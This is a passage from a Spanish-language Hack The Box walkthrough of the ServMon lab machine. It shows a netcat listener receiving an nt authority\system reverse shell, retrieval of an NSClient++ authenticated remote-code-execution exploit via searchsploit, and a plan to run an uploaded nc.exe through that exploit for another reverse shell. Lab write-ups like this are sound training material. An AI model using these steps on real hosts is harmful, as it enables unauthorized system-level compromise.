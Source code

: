 ```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.184] 49926
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

C:\Program Files\NSClient++>
```

Ya estamos dentro de la máquina como `nt authority\system` y podemos visualizar la flag (root.txt).

Probando el otro exploit que encontramos, nos dice que es un script en python3; por lo tanto lo descargamos en nuestra máquina.

```bash
❯ searchsploit -m json/webapps/48360.txt
  Exploit: NSClient++ 0.5.2.35 - Authenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48360
     Path: /usr/share/exploitdb/exploits/json/webapps/48360.txt
File Type: Python script, ASCII text executable

Copied to: /home/k4miyo/Documentos/HTB/ServMon/exploits/48360.txt


❯ mv 48360.txt nsclient.py
```

Ahora si lo ejecutamos, vemos que nos pide algunos parámetros.

```bash
❯ python3 nsclient.py
usage: NSClient++ 0.5.2.35 Authenticated RCE [-h] [-t [target]] [-P [port]] [-p [password]] [-c [command]]

optional arguments:
  -h, --help     show this help message and exit
  -t [target]    Target IP Address.
  -P [port]      Target Port.
  -p [password]  NSClient++ Administrative Password.
  -c [command]   Command to execute on target
```

Ahora, como nos solicita la contraseña; es posible que el script se loguee en el servidor; por lo tanto necesitamos tener nuestro **Local Port Forwarding** y con el parámetro `-c` nos dice que recibe comandos para ejecutar a nivel de sistema; esto indica que podríamos subir nuestro archivo `nc.exe` a cualquier ruta donde tengamos permisos y con el exploit llamarlo para entablarnos una reverse shell. 

En este caso ya tenemos el archivo `nc.exe` en `C:\Temp`, así que nos ponemos en escucha por el puerto 443 y ejecutamos el exploit:
